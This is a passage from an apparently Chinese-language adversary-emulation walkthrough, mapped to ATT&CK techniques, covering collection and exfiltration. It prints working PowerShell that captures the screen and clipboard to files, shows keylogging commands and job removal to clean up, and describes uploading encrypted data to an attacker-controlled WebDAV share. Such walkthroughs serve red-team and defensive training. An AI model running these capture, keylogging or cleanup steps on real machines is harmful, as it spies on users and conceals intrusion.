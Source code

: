 ## Step 7 - 收集和滲出

### 。 然後，攻擊者收集檔（T1005），將其壓縮（T1002）和加密（T1022），然後再將其上傳至攻擊者控制的WebDAV共用（T1048）。


### 攻擊者收集螢幕截圖（T1113）

```shell=
function Invoke-ScreenCapture {
    Add-Type -AssemblyName System.Windows.Forms
    Add-Type -AssemblyName System.Drawing
    $bitmap = New-Object System.Drawing.Bitmap([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Width, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Height)
    $graphics = [System.Drawing.Graphics]::FromImage($bitmap)
    $graphics.CopyFromScreen(0, 0, 0, 0, $bitmap.Size)
    $filePath = "$env:USERPROFILE\Desktop\screenshot.png"
    $bitmap.Save($filePath, [System.Drawing.Imaging.ImageFormat]::Png)
    $bitmap.Dispose()
    Write-Output "Screenshot saved to: $filePath"
}
Invoke-ScreenCapture
```

### 來自使用者剪貼板的數據（T1115）
```shell
$clipboardContent = Get-Clipboard
$clipboardFile = "$env:USERPROFILE\Desktop\clipboard.txt"
$clipboardContent | Out-File -FilePath $clipboardFile
Write-Output "Clipboard content saved to: $clipboardFile"

```

### 和鍵盤記錄（T1056）

```shell=
PS C:\Program Files\SysinternalsSuite> Keystroke-Check
PS C:\Program Files\SysinternalsSuite> Get-Keystrokes; Start-Sleep -Seconds 15; View-Job -JobName "Keystrokes"

```

### 查看與移除工作紀錄

```shell=
PS C:\Program Files\SysinternalsSuite> View-Job -JobName "Keystrokes"
PS C:\Program Files\SysinternalsSuite> Remove-Job -Name "Keystrokes" -Force
PS C:\Program Files\SysinternalsSuite> Remove-Job -Name "Screenshot" -Force

```

### Step 8 - 橫向運動
